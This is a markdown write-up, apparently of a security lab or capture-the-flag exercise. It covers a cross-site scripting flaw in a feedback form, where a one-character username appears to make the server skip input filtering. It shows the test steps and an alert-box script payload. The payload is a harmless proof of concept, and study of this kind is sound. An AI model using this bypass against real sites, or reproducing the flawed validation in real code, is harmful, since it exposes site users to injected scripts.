 # 🚨💉 XSS Feedback Injection (Length-Based Filter Bypass)

> **OWASP Category:** A03:2021 – Injection  
> **Severity:** 🟠 High  
> **Difficulty:** 🟡 Medium

The website's feedback form contains a Cross-Site Scripting (XSS) vulnerability with an unusual twist: the malicious JavaScript payload only executes when the username field contains exactly one character. This suggests the presence of flawed input validation that filters or truncates XSS payloads based on username length, creating a bypass opportunity that demonstrates how incomplete security measures can be circumvented.

🎯 **Length Matters:** When input validation depends on field length - attackers find the sweet spot!

---

## 🎯 Exploit Technique

### 🔧 Attack Evolution

#### 🥇 **Step 1 - Feedback Form Reconnaissance**
```html
<!-- Target: Feedback submission form -->
Form Fields:
- Username: [Input field - appears to have length-based validation]
- Feedback: [Textarea - target for XSS payload injection]
- Submit: [Button - triggers form processing]

Initial Hypothesis: Standard XSS vulnerability in feedback content
Test Strategy: Inject JavaScript payload and observe behavior
```

#### 🥈 **Step 2 - Initial XSS Payload Testing**
```javascript
// Standard XSS Test Payload
Username: test (4 characters)
Feedback: <script>alert('XSS')</script>
Result: ❌ Payload filtered/blocked

Username: ab (2 characters)  
Feedback: <script>alert('XSS')</script>
Result: ❌ Payload filtered/blocked

Pattern Recognition: Length-based filtering suspected
```

#### 🥉 **Step 3 - Length-Based Filter Discovery**
```javascript
// Critical Discovery: Single Character Bypass
Username: a (1 character)
Feedback: <script>alert('XSS')</script>
Result: ✅ XSS Payload Executed Successfully!

// Vulnerability Analysis:
// - Server-side validation checks username length
// - If username > 1 character: Apply XSS filtering to feedback
// - If username = 1 character: Skip XSS filtering (logic flaw)
```
